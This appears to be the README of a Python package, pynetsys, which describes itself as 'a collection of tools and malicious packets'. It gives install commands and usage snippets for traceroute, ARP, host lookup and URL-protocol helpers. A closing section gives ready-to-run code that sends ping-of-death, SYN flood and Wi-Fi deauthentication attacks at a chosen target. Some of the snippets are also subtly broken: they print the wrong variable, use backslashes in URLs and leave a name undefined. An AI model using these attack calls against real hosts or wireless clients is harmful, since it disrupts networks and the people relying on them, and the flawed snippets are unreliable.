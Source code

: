 # PYNETSYS

pynetsys is a collection of tools and malicious packets.

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

----------------

isonline = pynetsys.isOnline("python.org") --> bool
print(isonline)

haswebprotocol = pynetsys.hasWebProtocol("http:\\python.org") --> bool
OR
haswebprotocol = pynetsys.hasWebProtocol("python.org") --> bool 
print(haswebprotocol)

hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("https:\\python.org") --> bool
OR
hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("python.org") --> bool 
print(hasSSLwebprotocol)

addwebprotocol = pynetsys.addWebProtocol("python.org") --> str 
print(addwebprotocol)

removewebprotocol = pynetsys.removeWebProtocol("https:\\python.org") --> str 
OR
removewebprotocol = pynetsys.removeWebProtocol("http:\\python.org") --> str 
print(removewebprotocol)
```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.DEATH_PING)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.SYN_FLOOD)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "aa:bb:cc:dd:ee:ff", attack = Packets.WIRELESS_DEAUTH)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

```
